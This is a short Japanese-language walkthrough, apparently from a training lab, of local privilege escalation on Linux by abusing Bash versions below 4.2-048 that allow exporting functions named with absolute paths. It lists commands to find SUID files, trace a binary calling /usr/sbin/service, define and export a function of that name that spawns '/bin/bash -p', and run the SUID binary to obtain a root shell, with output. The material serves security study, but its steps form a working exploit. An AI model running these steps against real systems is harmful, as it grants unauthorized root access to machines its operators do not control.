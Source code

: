 いくつかのシェル (特に Bash <4.2-048) では、絶対パス名でユーザ関数を定義することが可能です。   
これらの関数は、サブプロセスからアクセスできるようにエクスポートすることができ、関数は実際に呼び出される実行ファイルよりも優先されることがある。  
# Privilege Escalation
1. ターゲット上のSUID/SGIDファイルの検索
```
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2
...
```
suid-envファイルは、rootユーザの権限で実行する必要があります。
2. SUIDファイルに対して文字列を実行します。
```
$ strings /usr/local/bin/suid-env2
...
/usr/sbin/service apache2 start
```
このファイルは、/usr/sbin/service プログラムを実行しようとしている可能性があります。
3. straceで確認することができます。
```
$ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service [pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2
start"]...
```
4. オプションで、ltraceで検証することも可能です。
```
$ ltrace /usr/local/bin/suid-env2 2>&1 | grep service system("/usr/sbin/service apache2 start"
```
これにより、システム関数が /usr/sbin/service プログラムの実行に使用されていることがわかります。   
5. Bashのバージョンが4.2-048以下であることを確認する
```
$ bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
```
6. usr/sbin/service "という名前でBash関数を作成し、その関数をエクスポートします。
```
$ function /usr/sbin/service { /bin/bash -p; }
$ export –f /usr/sbin/service
```
7. ルートシェル用のSUIDファイルを実行します。
```
$ /usr/local/bin/suid-env2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root) ...
```

